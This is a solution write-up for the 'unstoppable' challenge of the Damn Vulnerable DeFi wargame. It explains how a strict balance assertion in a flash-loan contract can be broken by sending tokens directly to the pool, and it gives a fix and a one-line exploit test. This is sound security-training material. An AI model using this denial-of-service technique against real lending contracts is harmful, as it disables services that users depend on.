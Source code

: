 # Damn Vulnerable DeFi

Damn Vulnerable DeFi is the wargame to learn offensive security of DeFi smart contracts.

Throughout numerous challenges you will build the skills to become a bug hunter or security auditor in the space.

https://www.damnvulnerabledefi.xyz/

# Introduction

unstoppable is the first challenge in the Damn Vulnerable DeFi series.

Challenge description: 
There's a lending pool with a million DVT tokens in balance, offering flash loans for free.
If only there was a way to attack and stop the pool from offering flash loans ...
You start with 100 DVT tokens in balance.

Challenge goal:
Make it so that it is no longer possible to execute flash loans.

# Findings 

## Critical Risk
### Incorrect equality in assert statement

**Context:** [`UnstoppableLender.sol#L40`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/contracts/unstoppable/UnstoppableLender.sol)

**Description:**
UnstoppableLender contract uses depositTokens function to fund the pool and updates poolBalance variable accordingly. However one can send tokens to the contract without using depositTokens function causing poolBalance to be incorrect which leads to assertion in line40 being always false.

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {
    require(borrowAmount > 0, "Must borrow at least one token");

    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    // Ensured by the protocol via the `depositTokens` function
    assert(poolBalance == balanceBefore);
        
    damnValuableToken.transfer(msg.sender, borrowAmount);
        
    IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
        
    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```
**Recommendation:**
poolBalance has no good use in the contract and should be removed along with every line using it. one should use token.balanceOf(address(this)) if he wants to know how much of a token is in the contract.

```diff
+ 
- assert(poolBalance == balanceBefore);
- uint256 public poolBalance;
- poolBalance = poolBalance + amount;
```

# How To Solve The Challenge
send DamnValuableTokens to UnstoppableLender contract without using depositTokens function.

**Context:** [`unstoppable.challenge.js#L41-L43`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/test/unstoppable/unstoppable.challenge.js)

```javascript
it('Exploit', async function () {
    await this.token.connect(attacker).transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);
});
```